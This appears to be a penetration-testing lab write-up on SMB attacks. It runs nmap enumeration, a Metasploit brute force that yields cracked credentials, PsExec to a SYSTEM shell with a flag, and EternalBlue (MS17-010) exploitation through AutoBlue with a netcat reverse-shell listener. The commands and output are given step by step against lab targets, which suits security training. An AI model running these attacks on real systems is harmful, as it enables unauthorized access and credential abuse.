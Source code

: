 # 🔬SMB

## Lab 1 - PsExec

> 🔬 [Windows: SMB Server PSexec](https://attackdefense.com/challengedetailsnoauth?cid=1959)
>
> * Target IP: `10.0.21.78`
> * **SMB** exploitation
> * Dictionaries to use:
>   * `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   * `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

### Enumeration

```bash
nmap -sV -sC 10.0.21.78
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-30 13:10 IST
Nmap scan report for 10.0.21.78
Host is up (0.0023s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=EC2AMAZ-408S766
| Not valid before: 2024-06-29T07:38:34
|_Not valid after:  2024-12-29T07:38:34
|_ssl-date: 2024-06-30T07:40:33+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-06-30 13:10:36
|_  start_date: 2024-06-30 13:08:33

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.46 seconds
```

<figure><img src="../../../../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

> Running SMB version 2.02 which means can authenticate with the system via PsExec

### SMB Brute Force

* Perform smb bruteforce using metasploit module `smb_login`

```bash
msf5 > search smb_login

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/scanner/smb/smb_login                   normal  No     SMB Login Check Scanner
```

```bash
msf5 > use auxiliary/scanner/smb/smb_login 
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.0.21.78
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > set VERBOSE false
msf5 auxiliary(scanner/smb/smb_login) > run
```

```bash
[+] 10.0.21.78:445        - 10.0.21.78:445 - Success: '.\sysadmin:samantha'
[+] 10.0.21.78:445        - 10.0.21.78:445 - Success: '.\demo:victoria'
[+] 10.0.21.78:445        - 10.0.21.78:445 - Success: '.\auditor:elizabeth'
[+] 10.0.21.78:445        - 10.0.21.78:445 - Success: '.\administrator:qwertyuiop' Administrator
[*] 10.0.21.78:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

<figure><img src="../../../../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

### SMB Exploitation

Use [PsExec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py) script for Linux (from the [impacket-scripts](https://www.kali.org/tools/impacket-scripts/)) to get a command prompt on the target machine, with the Administrator account.

* Using this technique, **no exploit is launched or uploaded on the target system**.
* It is a legitimate authentication with the actual credentials and the use of an official tool (`psexec`).

```bash
 psexec.py Administrator@10.0.21.78 cmd.exe
```

```bash
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.0.21.78.....
[*] Found writable share admin
[*] Uploading file WlEGirYI.exe
[*] Opening SVCManager on 10.0.21.78.....
[*] Creating service vgLO on 10.0.21.78.....
[*] Starting service vgLO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system  #the highest privileges
```

{% hint style="info" %}
Target the administrator account because that gives the most access, while other normal user only will give a certain level of access.
{% endhint %}

Alternatively to the Python script, use Metasploit [psexec](https://www.rapid7.com/db/modules/exploit/windows/smb/psexec/) module to get a `meterpreter` session on the target system.

* This technique will **upload and run a (malicious) payload** on the target. Pay attention to the antivirus!

```bash
msf5 auxiliary(scanner/smb/smb_login) > search psexec

Matching Modules
================
10  exploit/windows/smb/psexec                   1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution
```

```bash
msf5 auxiliary(scanner/smb/smb_login) > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set RHOSTS 10.0.21.78
msf5 exploit(windows/smb/psexec) > set SMBUser Administrator
msf5 exploit(windows/smb/psexec) > set SMBPass qwertyuiop
msf5 exploit(windows/smb/psexec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (132).png" alt=""><figcaption></figcaption></figure>

* Find the flag, running `meterpreter` commands

```bash
shell
cd \
dir
type flag.txt
```

<figure><img src="../../../../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

<details>

<summary>Flag</summary>

`e0da81a9cd42b261bc9b90d15f780433`

</details>

***

## Lab 2 - EternalBlue

> 🔬 **Extra Lab**
>
> Setup a vulnerable _Windows 2008 R2 Virtual Machine_ and connected it to the same network of the Kali virtual machine.
>
> * Host system: `Kali Linux`
> * Target system: `Windown Server 2008 R2`&#x20;
> * Target IP: `192.168.42.139`&#x20;
> * Local IP: `192.168.42.132`
> * Exploitation tool: [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
> * Vulnerability: [CVE-2017-0143 - EternalBlue](https://nvd.nist.gov/vuln/detail/CVE-2017-0143) + [CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)

### Enumeration

```bash
nmap -sV -sC 192.168.42.139 -Pn
```

<figure><img src="../../../../../.gitbook/assets/image (134).png" alt=""><figcaption></figcaption></figure>

```bash
nmap -sV --script smb-vuln-ms17-010 -p445 192.168.42.139 -Pn
```

<figure><img src="../../../../../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>

### Manual Exploitation

* [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) will be used for the manual exploitation

<figure><img src="../../../../../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>

```bash
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010
pip install -r requirements.txt
```

<figure><img src="../../../../../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>

* Generate a shellcode that will be exploited on the target system.

```bash
┌──(k3shi㉿kali)-[~/Downloads/AutoBlue-MS17-010]
└─$ cd shellcode        
                                                                                                                  
┌──(k3shi㉿kali)-[~/Downloads/AutoBlue-MS17-010/shellcode]
└─$ ls
eternalblue_kshellcode_x64.asm  eternalblue_kshellcode_x86.asm  eternalblue_sc_merge.py  shell_prep.sh
                                                                                                                  
┌──(k3shi㉿kali)-[~/Downloads/AutoBlue-MS17-010/shellcode]
└─$ chmod +x shell_prep.sh 

┌──(k3shi㉿kali)-[~/Downloads/AutoBlue-MS17-010/shellcode]
└─$ chmod +x shell_prep.sh 

# LHOST = Local Kali IP address
# LPORT for x64 = Local Port to listen the reverse shell
# LPORT for x84 = Same as x64
```

<figure><img src="../../../../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

* Set a **`netcat`** listener on the specified port, in another terminal tab

```bash
┌──(k3shi㉿kali)-[~/Downloads/AutoBlue-MS17-010/shellcode]
└─$ nc -nvlp 1234                                               
listening on [any] 1234 ...
```

* In the `AutoBlue` terminal tab, use the `eternalblue_exploit7.py` to exploit the target from the AutoBlue-MS17-010 directory

```bash
cd ..
chmod +x eternalblue_exploit7.py
python eternalblue_exploit7.py 192.168.31.131 shellcode/sc_x64.bin
```

<figure><img src="../../../../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

* Check the `netcat` tab for the reverse shell

### Automatic Exploitation

```bash
┌──(k3shi㉿kali)-[~]
└─$ msfconsole

msf6 > search eternalblue
```

<figure><img src="../../../../../.gitbook/assets/image (142).png" alt=""><figcaption><p>List of EternalBlue</p></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

















